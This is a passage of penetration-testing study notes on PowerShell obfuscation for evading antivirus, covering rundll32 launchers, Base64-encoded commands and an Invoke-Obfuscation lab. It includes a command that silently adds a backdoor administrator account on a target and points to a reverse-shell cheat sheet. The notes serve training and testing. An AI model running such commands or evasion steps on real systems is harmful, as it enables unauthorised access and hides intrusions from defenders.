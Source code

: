 If we're operating from a Windows command prompt ("cmd.exe") on the target, instead of a PowerShell console, we can use the `powershell.exe -Command "<PowerShellCommand>"` option to run our obfuscated commands, just encapsulate the result with quotes.

*LAUNCHER* option.

In addition to obfuscating our PowerShell commands, we can also create obfuscated launcher commands to run our obfuscated code on the target using the `LAUNCHER` option.

Example:
`LAUNCHER`, `RUNDLL`, `0` for no execution flags. 
The resulting string, is an obfuscated command that utilizes `rundll32.exe` with the `SHELL32.DLL` function (`ShellExec_RunDLL`) which will launch our obfuscated powerShell code on the target.

#### Base64 Encoding

Although not really a recommended obfuscation method since it can be easily detected by Antivirus and other string heuristics, considering it's just base64 encoding, is PowerShell's `-EncodedCommand` parameter. It allows us to execute encoded commands or script blocks which contain characters which might interfere with the processing of our command via a Windows command prompt.
In simpler terms, it makes complex commands *digestible by PowerShell* by encoding everything with Base64.

Example:
```
$command = 'net user adminl "p@ssword9001" /ADD; net localgroup administrators adminl /add'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```
We can then get the results of our encoded command with `Write-Host $encodedCommand`.
We then execute our encoded command with `powershell.exe -encodedCommand <EncodedCommand>`.

### PowerShell Code Obfuscation (with Invoke-Obfuscation) - Lab

#### Lab Environment

[**Invoke-Obfuscation**](https://github.com/danielbohannon/Invoke-Obfuscation) is an open source PowerShell v2.0+ compatible PowerShell command and script obfuscator.

#### Lab Solution

To install and set up Invoke-Obfuscation:
`git clone https://github.com/danielbohannon/Invoke-Obfuscation.git`,
`sudo apt install powershell -y`, `pwsh`,
`cd ./Invoke-Obfuscation`, `Import-Module ./Invoke-Obfuscation.psd1`.

We need a script to use as text to test. We can take one from [*Reverse Shell Cheat Sheet*](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell).

To obfuscate the code:
`Invoke-Obfuscation`,
`SET SCRIPTPATH ~/Desktop/pwsh_script.ps1`, `AST`, `All`, `1`, and we get the obfuscated version of the PowerShell code.

